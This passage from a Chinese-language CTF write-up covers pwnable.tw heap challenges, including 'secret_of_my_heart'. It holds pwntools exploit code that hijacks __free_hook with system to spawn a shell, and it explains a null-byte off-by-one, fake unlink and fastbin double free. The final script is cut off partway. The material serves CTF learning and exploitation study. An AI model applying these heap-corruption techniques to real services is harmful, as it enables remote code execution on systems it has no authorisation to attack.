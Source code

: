 ```python
delete(3)
io.recvall()
gdb.attach(io)
'''
hack free hook
'''
add(0x68,p64(libc.sym['__malloc_hook']-0x23+0x20)) # 3
add(0x68,'/bin/sh\x00') # 4
add(0x68,'6') # 5
add(0x68,'\x00'*(88-13+16)+p64(libc.sym['__free_hook']-0xb58)) # 6 fake chunk in main arena

for i in range(18):
    add(0x90,'aaa')
add(0x90,'a'*8+p64(libc.sym['system']))

delete(4)
io.interactive()
```

# secret_of_my_heart(null by one + fastbin double free + free hook)

[secret_of_my_heart](/assets/binary/%E5%88%B7%E9%A2%982/secret_of_my_heart)

[wp](https://bbs.pediy.com/thread-230028.htm)

与heap题相似

通过越位的0Byte让后面的0xf8大块误以为可以合并，且伪造prev_size使得合并时合法的unlink第一个0x80的块，至此总块

之后用double free在main arena上伪造块，需要注意的是无法直接覆盖到top chunk，先劫持fastbin再伪造一个靠近top chunk的块后再劫持top chunk

将top chunk指向free hook-0xb58处，通过malloc劫持free hook为system

flag在/home/secret_of_my_heart目录下

小问题：
- main arena上伪造块的size为0x7f在64位机下可以绕过0x70的fastbin检查，所以fastbin double free需要在0x70的bin内展开
- 如果没有伪造prev_size，下一个块不能合法的合并，因为没有合法的unlink用的bk和fd
- 64位下chunk以16B对齐，有时候分配的chunk没有给prev_size字段，需要构造合理的size

```python
from pwn import *

io = remote('chall.pwnable.tw',10302)
#io = process('./secret_of_my_heart')
libc = ELF('./libc_64.so.6')
#context.log_level = 'debug'
# size<=0x100   num[0~99]
def add(size,name,strs):
	io.recvuntil('choice :')
	io.sendline('1')
	io.recvuntil('heart : ')
	io.sendline(str(size))
	io.recvuntil('heart :')
	io.send(name)
	io.recvuntil('heart :')
	io.send(strs)
def delete(index):
	io.recvuntil('choice :')
	io.sendline('3')
	io.recvuntil('Index :')
	io.sendline(str(index))
def show(index):
	io.recvuntil('choice :')
	io.sendline('2')
```